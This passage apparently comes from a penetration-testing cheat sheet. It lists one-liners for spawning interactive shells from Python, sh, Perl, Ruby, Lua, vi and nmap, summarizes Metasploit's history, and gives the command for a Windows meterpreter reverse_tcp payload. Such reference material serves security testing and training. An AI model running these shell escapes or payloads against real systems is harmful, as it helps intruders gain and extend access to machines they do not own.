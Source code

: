 echo os.system('/bin/bash')

### **Spawn Interactive sh shell**
/bin/sh -i

### **Spawn Perl TTY Shell**
exec "/bin/sh";

perl —e 'exec "/bin/sh";'

### **Spawn Ruby TTY Shell**
exec "/bin/sh"

### **Spawn Lua TTY Shell**
os.execute('/bin/sh')

### **Spawn TTY Shell from Vi**
Run shell commands from vi:

:!bash

### **Spawn TTY Shell NMAP**
!sh

## **Metasploit**
Metasploit was created by H. D. Moore in 2003 as a portable network tool using Perl. By 2007, the Metasploit Framework had been completely rewritten in Ruby. On October 21, 2009, the Metasploit Project announced that it had been acquired by Rapid7, a security company that provides unified vulnerability management solutions.

Like comparable commercial products such as Immunity’s Canvas or Core Security Technologies’ Core Impact, Metasploit can be used to test the vulnerability of computer systems or to break into remote systems. Like many information security tools, Metasploit can be used for both legitimate and unauthorized activities. Since the acquisition of the Metasploit Framework, Rapid7 has added two open core proprietary editions called Metasploit Express and Metasploit Pro.

Metasploit’s emerging position as the de facto exploit development framework led to the release of software vulnerability advisories often accompanied by a third party Metasploit exploit module that highlights the exploitability, risk and remediation of that particular bug. Metasploit 3.0 began to include fuzzing tools, used to discover software vulnerabilities, rather than just exploits for known bugs. This avenue can be seen with the integration of the lorcon wireless (802.11) toolset into Metasploit 3.0 in November 2006. Metasploit 4.0 was released in August 2011.

### **Meterpreter Payloads**
### **Windows reverse meterpreter payload**

|**Command**|**Description**|
| :-: | :-: |
|set payload windows/meterpreter/reverse\_tcp|Windows reverse tcp payload|
